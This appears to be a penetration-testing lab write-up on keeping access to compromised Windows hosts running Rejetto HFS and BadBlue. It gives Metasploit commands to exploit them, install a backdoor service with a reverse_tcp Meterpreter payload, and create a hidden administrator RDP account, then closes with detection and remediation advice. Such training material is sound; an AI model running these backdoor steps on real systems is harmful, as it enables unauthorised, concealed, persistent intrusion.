# Maintaining Access: Persistence Service

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Windows host (Rejetto HFS / BadBlue)

## 1. Executive Summary

Two ways to maintain access to a compromised Windows host: a **service-based backdoor** that
survives reboots (`persistence_service`), re-caught with a `multi/handler`; and an **RDP
backdoor account** created with `getgui`, hidden from the login screen and added to the
Remote Desktop Users and Administrators groups.

## 2. Method A — persistence_service

```bash
ping -c 4 <target>
db_nmap -sV <target>
use exploit/windows/http/rejetto_hfs_exec
exploit
```







Migrating to an x64 process.



```bash
background
use exploit/windows/local/persistence_service
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
run
```







Killing all sessions and restarting MSF to test persistence.



A `multi/handler` with the same settings catches the backdoor again — persistence confirmed.



## 3. Method B — RDP Backdoor (getgui)

```bash
db_nmap -sV <target>
searchsploit badblue
use exploit/windows/http/badblue_passthru
exploit
```









Creating a hidden RDP user (enables RDP if disabled).

```bash
run getgui -e -u joselito -p hacker_123321
```

```
Adding User: joselito ... Hiding user from Windows Login screen
Adding User: joselito to 'Remote Desktop Users' and 'Administrators'
```



```bash
xfreerdp /u:joselito /p:hacker_123321 /v:<target>
```





## 4. Detection & Remediation Recommendations

1. **Audit services and local accounts** — alert on new services with suspicious binaries and
   on hidden accounts (SpecialAccounts registry) added to privileged/RDP groups.
2. **Monitor RDP enablement** (Terminal Services startup, firewall changes) and new logons.
3. **EDR + application allow-listing** to catch backdoor artifacts; use the modules' cleanup
   resource scripts to understand what they drop.
4. **Least privilege** so an attacker can't install services or create accounts.
